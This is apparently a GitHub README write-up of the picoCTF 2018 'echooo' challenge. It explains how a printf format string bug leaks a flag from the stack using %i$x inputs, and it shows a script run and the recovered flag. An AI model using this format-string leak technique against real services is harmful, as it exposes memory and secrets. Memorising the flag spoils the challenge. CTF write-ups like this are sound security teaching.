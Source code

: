 # picoCTF2018 - echooo
## Text
> This program prints any input you give it. Can you leak the flag? Connect with nc 2018shell.picoctf.com 46960. [Source](https://github.com/PrinceOfBorgo/picoCTF2018-echooo/blob/master/echo.c).

Port may be different.

## Hints
> If only the program used puts...

## Solution
Connecting to the specified server we are able to enter strings which are then printed to screen.
Analysing the source code provided by picoCTF we can see that the flag is saved in a 64 bytes long buffer and our input is printed to screen using `printf` function accepting only one argument.
This means that we can pass a string containing formatting characters which will read memory from the stack, expecting to find the corresponding arguments.

The script will connect to the server and start sending strings of the format `%1$x`, `%2$x`, `%3x`, ... where `%i$x` will get the `i`th parameter on the stack.
Getting an output corresponding to `pico` means that we started reading the flag buffer, so we can keep reading until we get all 64 bytes of the buffer and returning only the part representing the flag.

## Usage
Simply run `echooo.py` as a python script and insert port to which to connect:
```
$ python3 echooo.py 
picoCTF port: 46960
[+] Opening connection to 2018shell.picoctf.com on port 46960: Done

Looking for flag buffer...

FLAG BUFFER:
b'pico'
b'picoCTF{'
...
...
b'picoCTF{foRm4t_stRinGs_aRe_DanGer0us_a7bc4a2d}\n\x00\xab\x87\x04\x08\x01\x00\x00\x00\xf4\x10\x8e\xff'
b'picoCTF{foRm4t_stRinGs_aRe_DanGer0us_a7bc4a2d}\n\x00\xab\x87\x04\x08\x01\x00\x00\x00\xf4\x10\x8e\xff\xfc\x10\x8e\xff'

FLAG:  picoCTF{foRm4t_stRinGs_aRe_DanGer0us_a7bc4a2d}
```

